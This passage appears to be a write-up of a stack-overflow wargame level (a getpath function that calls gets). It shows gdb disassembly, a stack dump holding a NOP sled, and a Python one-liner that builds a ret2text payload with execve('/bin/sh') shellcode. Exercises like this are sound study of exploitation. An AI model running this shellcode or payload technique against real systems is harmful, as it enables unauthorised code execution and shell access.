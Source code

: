 ```
0x080484a4 <getpath+32>:        lea    -0x4c(%ebp),%eax
0x080484a7 <getpath+35>:        mov    %eax,(%esp)
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    0x4(%ebp),%eax
0x080484b2 <getpath+46>:        mov    %eax,-0xc(%ebp)
0x080484b5 <getpath+49>:        mov    -0xc(%ebp),%eax
0x080484b8 <getpath+52>:        and    $0xbf000000,%eax
0x080484bd <getpath+57>:        cmp    $0xbf000000,%eax
0x080484c2 <getpath+62>:        jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:        mov    $0x80485e4,%eax
0x080484c9 <getpath+69>:        mov    -0xc(%ebp),%edx
0x080484cc <getpath+72>:        mov    %edx,0x4(%esp)
0x080484d0 <getpath+76>:        mov    %eax,(%esp)
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        movl   $0x1,(%esp)
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    $0x80485f0,%eax
0x080484e9 <getpath+101>:       lea    -0x4c(%ebp),%edx
0x080484ec <getpath+104>:       mov    %edx,0x4(%esp)
0x080484f0 <getpath+108>:       mov    %eax,(%esp)
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave  
0x080484f9 <getpath+117>:       ret    
End of assembler dump.
(gdb) 
```
  The address of return instruction: 0x080484f9

  2. Find the address of stack
```
(gdb) x/40xw $esp
0xbffff7d4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7e4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7f4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff804:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff814:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff824:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff834:     0x315e1aeb      0x074688c0      0x5e891e8d      0x0c468908
0xbffff844:     0xf3890bb0      0x8d084e8d      0x80cd0c56      0xffffe1e8
0xbffff854:     0x69622fff      0x68732f6e      0x4141414a      0x42424241
0xbffff864:     0x00000042      0xbffff884      0x08048520      0x08048510
```
  The address of return instruction: 0xbffff7d4

  3. Prepare final payload
  > {NOP or Some Buffer}(80) + {Address of return instruction}(4) + {Address of stack}(4) + {NOPs sled}(100) + {Shellcode} 
```
python -c 'print("\x90"*(80) + "\xf9\x84\x04\x08" + "\xd4\xf7\xff\xbf" +  "\x90"*100 + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42")' > /tmp/exploit6_ret2text
```
